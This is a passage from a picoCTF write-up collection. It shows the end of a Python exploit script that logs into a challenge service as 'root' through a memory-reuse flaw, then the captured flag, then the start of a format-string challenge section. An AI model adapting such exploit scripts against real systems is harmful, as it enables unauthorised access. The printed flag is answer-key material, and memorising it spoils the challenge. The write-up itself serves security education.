 ```Python
print msg
if re.findall("Invalid",msg):
    print s.recvuntil("> ") # Enter you command:
    s.sendline("logout")
    print "## logout"
    print s.recvuntil("> ") # Enter you command:
    s.sendline("login")
    print "## login"
else:
    s.sendline("login")
    print "## login"

print s.recvuntil("\n") # Please enter the length of your username
s.sendline("5")
print "## 5"

print s.recvuntil("\n") # Please enter your username
s.sendline("root")
print "## root"

print s.recvuntil("> ") # Enter you command:
s.sendline("print-flag")
print "## print-flag"

print s.recvuntil("> ") # Enter you command:
s.sendline("print-flag")
print "## print-flag"

print s.recv()
```

Flag: `picoCTF{g0ttA_cl3aR_y0uR_m4110c3d_m3m0rY_ac0e0e6a}`





<br /><br />
<br /><br />
# [Binary Exploitation]: stringzz (300 points)
- - -
## Challenge
> Use a format string to pwn this program and get a flag.
<br /><br />
Hint: http://www.cis.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

Attachment:

- vuln (ELF 32-bit)
- vuln.c

<br />
## Solution
書式文字列攻撃の問題です。
